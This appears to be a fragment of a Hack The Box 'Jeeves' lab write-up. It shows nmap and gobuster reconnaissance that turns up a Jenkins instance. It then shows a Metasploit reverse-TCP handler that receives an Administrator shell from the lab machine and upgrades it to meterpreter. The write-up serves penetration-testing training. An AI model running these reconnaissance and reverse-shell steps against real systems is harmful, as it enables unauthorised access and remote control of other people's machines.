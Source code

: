 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 20.89 seconds

root@kali:~/htb/jeeves# gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50 -u http://10.10.10.63:50000

Gobuster v1.4.1 OJ Reeves (@TheColonial)  
=====================================================  
=====================================================  
[+] Mode : dir  
[+] Url/Domain : http://10.10.10.63:50000/  
[+] Threads : 50  
[+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt  
[+] Status codes : 200,204,301,302,307  
=====================================================  
/askjeeves (Status: 302)

![1jenkins](https://imgur.com/SEgHp6t.jpg)

![2jenkins](https://imgur.com/NRLrVP3.jpg)

![3jenkins](https://imgur.com/JFZAihz.jpg)

msf > use exploit/multi/handler  
msf exploit(multi/handler) > set lhost 10.10.14.206  
lhost => 10.10.14.206  
msf exploit(multi/handler) > set lport 44544  
lport => 44544  
msf exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp  
payload => windows/x64/shell/reverse_tcp  
msf exploit(multi/handler) > clear  
[*] exec: clear

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.206:44544  
[*] Sending stage (336 bytes) to 10.10.10.63  
[*] Command shell session 5 opened (10.10.14.206:44544 -> 10.10.10.63:49694) at 2018-05-17 20:21:01 +0200

Microsoft Windows [Version 10.0.10586]  
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>More?  
More?

'PuGroj' is not recognized as an internal or external command,  
operable program or batch file.

C:\Users\Administrator\.jenkins>^Z  
Background session 5? [y/N] y  
msf exploit(multi/handler) > sessions -u 5  
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [5]
